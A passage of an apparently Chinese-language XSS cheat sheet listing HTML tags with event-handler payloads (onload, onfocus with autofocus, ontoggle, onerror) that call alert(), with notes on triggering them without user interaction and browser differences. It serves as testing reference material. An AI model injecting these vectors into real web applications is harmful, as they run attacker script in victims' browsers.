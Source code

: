     使用open属性触发ontoggle事件，无需用户去触发
    <details open ontoggle="alert('xss');">

### `<svg>`

    <svg onload=alert("xss");>

### `<select>`

    <select onfocus=alert(1)></select>
    
    通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
    <select onfocus=alert(1) autofocus>

### `<iframe>`

    <iframe onload=alert("xss");></iframe>

### `<video>`

    <video><source onerror="alert(1)">


### `<audio>`

    <audio src=x  onerror=alert("xss");>


### `<body>`

    <body/onload=alert("xss");>


利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发

    <body
    onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>


### `<textarea>`

    <textarea onfocus=alert("xss"); autofocus>


### `<keygen>`

    <keygen autofocus onfocus=alert(1)> //仅限火狐


### `<marquee>`

    <marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以


### `<isindex>`
